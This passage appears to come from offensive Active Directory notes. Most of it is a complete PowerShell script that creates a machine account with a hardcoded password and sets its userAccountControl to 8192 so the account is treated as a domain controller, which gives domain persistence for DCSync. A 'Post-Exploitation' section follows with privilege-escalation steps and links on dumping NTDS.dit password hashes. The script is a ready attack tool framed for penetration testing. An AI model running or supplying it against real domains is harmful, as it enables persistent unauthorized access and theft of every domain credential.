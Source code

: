 **Automate technique 2:**
PowerShell script to automate domain persistence via the userAccountControl active directory attribute.
```
function Execute-userAccountControl
{
[CmdletBinding()]
        param
        (
                [System.String]$DomainFQDN = $ENV:USERDNSDOMAIN,
                [System.String]$ComputerName = 'Pentestlab',
                [System.String]$OSVersion = '10.0 (18363)',
                [System.String]$OS = 'Windows 10 Enterprise',
                [System.String]$DNSName = "$ComputerName.$DomainFQDN",
$MachineAccount = 'Pentestlab'
        )
$secureString = convertto-securestring "Password123" -asplaintext -force
$VerbosePreference = "Continue"

Write-Verbose -Message "Creating Computer Account: $ComputerName"
New-ADComputer $ComputerName -AccountPassword $securestring -Enabled $true -OperatingSystem $OS -OperatingSystemVersion $OS_Version -DNSHostName
$DNSName -ErrorAction Stop;
Write-Verbose -Message "$ComputerName created!"
Write-Verbose -Message "Attempting to establish persistence."
Write-Verbose -Message "Changing the userAccountControl attribute of $MachineAccount computer to 8192."
Set-ADComputer $MachineAccount -replace @{ "userAccountcontrol" = 8192 };
Write-Verbose -Message "$MachineAccount is now a Domain Controller!"
Write-Verbose -Message "Domain persistence established!You can now use the DCSync technique with Pentestlab credentials."
$VerbosePreference = "Continue"
}
```



## Post-Exploitation

### Computer accounts privesc
> For example, if an admin server is joined to a group with backup rights on Domain Controllers, all an attacker needs to do is compromise an admin account with rights to that admin server and then get System rights on that admin server to compromise the domain.

1. Compromise an account with admin rights to admin server.
2. Admin server computer account needs rights to Domain Controllers.

### Extract NTDS
#### Extract NTDS without Admin priv
- https://www.youtube.com/watch?v=KWLA_OLanPc

#### Multiple ways to extract NTDS
- https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/
- https://www.puckiestyle.nl/extracting-password-hashes-from-the-ntds-dit-file/
- https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/
- https://www.cyberis.com/article/obtaining-ntdsdit-using-built-windows-commands
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration
- https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/tutorial-for-ntds-goodness-vssadmin-wmis-ntdsdit-system/
- https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin